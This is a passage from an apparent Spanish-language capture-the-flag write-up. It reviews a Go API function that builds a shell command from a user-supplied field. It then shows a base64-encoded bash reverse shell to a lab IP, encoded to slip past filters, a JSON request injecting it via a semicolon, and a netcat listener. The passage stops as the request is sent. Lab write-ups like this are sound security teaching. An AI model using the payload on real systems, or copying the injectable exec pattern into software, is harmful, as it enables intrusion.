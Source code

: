 La API está construida con Go, vamos a revisar brevemente el archivo **`main.go`**, el código contiene muchas líneas así que os pongo sólo la parte interesante:

```Go
func loadCharacter(species string) string {
	cmd := exec.Command("sh", "-c", "cat characteristics/"+species)
	stdoutStderr, err := cmd.CombinedOutput()
	if err != nil {
		return err.Error()
	}
	return string(stdoutStderr)
}
```

No entiendo mucho de Go, pero el código se puede entender fácilmente si has manejado otros lenguajes como Python.
Básicamente en esta función vemos que se ejecuta un comando a nivel de sistema, haciendo uso de la librería **`os/exec`** importada al inicio del script.
Vemos que con **`exec.Command`** se lanza el comando **`sh -c cat characteristics/`** seguido del valor **`species`**, que es básicamente un string en formato JSON.
Lo interesante de esto es que podría ser vulnerable a [Remote Code Execution (RCE)](https://beaglesecurity.com/blog/vulnerability/remote-code-execution.html), vamos a enviar una petición POST maliciosa para tratar de obtener una shell inversa.
Primero vamos a codificar nuestro comando en Base64 para evadir posibles filtros:

```console
p3ntest1ng:~$ echo "bash -i >& /dev/tcp/10.10.15.113/9999 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xMTMvOTk5OSAwPiYxCg==
```

Nuestra petición tendrá este aspecto (el punto y coma antes del echo es importante para que interprete la orden):

```json
{
  "name":"pwned",
  "species":";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xMTMvOTk5OSAwPiYxCg== | base64 -d | bash"
}
```

Nos ponemos en escucha con **`nc -nlvp 9999`** y lanzamos la petición con **`BurpSuite`**:

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
```

Le damos a **`Forward`** y nos debería entablar la conexión...
